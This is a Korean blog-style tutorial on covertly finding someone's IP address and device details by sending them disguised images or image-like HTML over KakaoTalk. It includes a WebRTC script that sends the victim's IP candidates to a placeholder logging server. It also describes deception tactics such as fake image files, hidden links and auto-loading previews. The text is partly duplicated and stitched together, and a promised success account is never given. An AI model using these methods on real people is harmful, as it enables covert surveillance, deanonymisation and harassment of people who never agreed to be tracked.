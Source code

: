 ```yaml
---
title: "사진 한 장으로 아이피 추적하기1 - 방법을 찾아보자"
categories: [security]
tags:
  - 잡다한 연구
---
```


# 📸 사진 한 장으로 아이피를 추적해보자!

우리는 평소에 별 생각 없이 카카오톡으로 이미지를 주고받는다. 그런데 이 **단 한 장의 이미지**가 상대방의 **공용 IP 주소**와 **접속 환경**을 추적하는 수단이 될 수 있다는 걸 아는가?

---

## 🧠 1. WebRTC를 활용한 IP 추적 원리

**WebRTC**는 브라우저 기반의 P2P 기술로, 영상통화나 파일 전송에 쓰인다. 이 기술은 브라우저 간 직접 통신을 만들기 때문에, 특정 조건이 맞으면 상대방의 공용 IP 주소(심지어 내부 IP까지도!)를 노출시킬 수 있다.

### **기본 절차**
1. 상대방이 WebRTC 추적 기능이 포함된 웹사이트에 접속하도록 유도
2. STUN 서버를 통해 상대방의 IP 정보를 수집
3. 수집한 IP를 기반으로 위치 추정

---

## 🖼️ 2. 이미지를 이용한 WebRTC 유도 방식

이미지만으로 WebRTC를 실행할 수는 없지만, **이미지를 가장한 HTML 페이지**나 **이미지에 연결된 링크**를 통해 상대방을 WebRTC 페이지로 유도할 수 있다.

### 📌 방법 A. 이미지에 링크를 숨겨두기
- EXIF 메타데이터에 링크 삽입 (단, 카카오톡은 이 정보를 삭제할 가능성이 높다)

### 📌 방법 B. HTML을 이미지처럼 위장
1. WebRTC 스크립트를 삽입한 HTML 파일을 만든다.
2. `<img>` 태그와 위장된 제목으로 상대방이 열도록 유도
3. 해당 HTML 파일이 열리면 WebRTC가 실행되고 IP 수집이 시작된다

```html
<script>
    const pc = new RTCPeerConnection({ iceServers: [{ urls: "stun:stun.l.google.com:19302" }] });
    pc.createDataChannel("");
    pc.createOffer().then(o => pc.setLocalDescription(o));
    pc.onicecandidate = e => {
        if (e.candidate) {
            fetch("https://yourserver.com/log", {
                method: "POST",
                headers: { "Content-Type": "application/json" },
                body: JSON.stringify({ ip: e.candidate.candidate })
            });
        }
    };
</script>
```
>⚠️ 단점: 상대방이 '이미지'인 줄 알고 열어야 하며, 모바일에서는 실행되지 않을 수 있음

✅ 3. 우리는 이렇게 성공했다: 카카오톡 '사진 미리보기'를 이용한 실전 IP 추적 사례
WebRTC보다 더 현실적인 방식이 바로 이것이다.

카카오톡은 외부 이미지 링크를 미리보기로 자동 불러온다. 이 점을 활용하면, 상대방의 단말기에서 이미지를 로딩하면서 서버에 직접 요청이 들어오고, 그 순간 IP 주소, 브라우저 정보, 기종 정보가 로그로 남는다.
### **1. WebRTC를 활용한 IP 주소 추출 원리**

WebRTC는 브라우저 기반의 P2P(Peer-to-Peer) 기술로, 영상통화, 음성채팅, 파일 전송 등에 사용돼. WebRTC 기반의 서비스를 이용할 경우, 상대방의 **공용 IP 주소**(그리고 일부 경우 내부 IP) 를 확인할 수 있다.

**방법:**

1. 상대방이 WebRTC 기능이 포함된 웹사이트에 접속하도록 유도.
2. 사이트에서 STUN 서버를 이용해 상대방의 공용 IP를 가져옴.
3. 해당 IP를 기반으로 위치를 분석.

---

### **2. 이미지 파일을 통한 WebRTC 유도 방법**

이미지만 전송해서 직접 WebRTC를 실행할 수는 없지만, **이미지에 포함된 URL**을 통해 상대방을 WebRTC 트래킹 사이트로 유도하는 방법이 가능하다.
- 카카오톡 자체에서는 WebRTC가 자동 실행되지 않지만, **특정 방식으로 채팅방에서 코드가 실행되도록 유도할 수 있음.**

### **▶ 방법**

1. **GIF, 스티커, 동영상 파일에 WebRTC 기능이 포함된 링크를 삽입**.
2. **상대방이 클릭하지 않더라도, 미리보기 기능을 이용해 자동 실행되도록 제작**.

🚀 **실전 예제**:

- 상대방이 GIF 파일을 확인하는 순간, **외부 서버에서 WebRTC 실행 코드가 포함된 페이지가 로드**되도록 설정.
- GIF 또는 영상 파일 내부에 **추적용 픽셀(Tracking Pixel)**을 숨겨놓고, 상대방이 볼 때 자동 실행.

💡 **이 방식의 장점**:

- 상대방이 "클릭"하지 않아도 **채팅방에서 미리보기로 확인하는 순간** WebRTC 실행 가능.
- GIF나 영상은 자연스러워서 의심을 덜 살 가능성이 높음.

⚠️ **주의**: 카카오톡의 보안 업데이트에 따라 동작 방식이 달라질 수 있음.

### **방법 1: 이미지 내 링크 삽입 (Meta Link Trick)**

- 이미지 메타데이터(EXIF)에 특정 URL을 숨겨놓고, 상대방이 이미지를 열었을 때 해당 URL이 실행되도록 유도.
- 이 방식은 특정 프로그램에서만 동작하지만, **카카오톡에서는 작동하지 않을 가능성이 높음.**

### **방법 2: HTML 파일을 이미지처럼 위장 (더 효과적)**

1. **WebRTC 추적 페이지 제작**
    - WebRTC IP 추출 스크립트를 포함한 HTML 페이지를 만든다.
    - 이 HTML을 이미지처럼 위장하여 상대방이 열도록 유도.
2. **이미지를 링크로 연결**
    - 상대방이 이미지를 클릭하도록 만들고, 클릭 시 WebRTC 페이지가 열리게 함.
    - 카카오톡에서는 직접 실행되지 않을 수 있지만, 특정 브라우저에서 열리면 가능.
## **🔥 결론**

✅ **가장 확실한 방법**: **카카오톡 영상통화를 통해 WebRTC 패킷 분석**

✅ **차선책**: **WebRTC 기능이 포함된 문서파일(HTML, PDF 등)을 보내 실행 유도**

✅ **고급 기법**: **GIF, 영상 미리보기를 이용해 자동 실행 유도**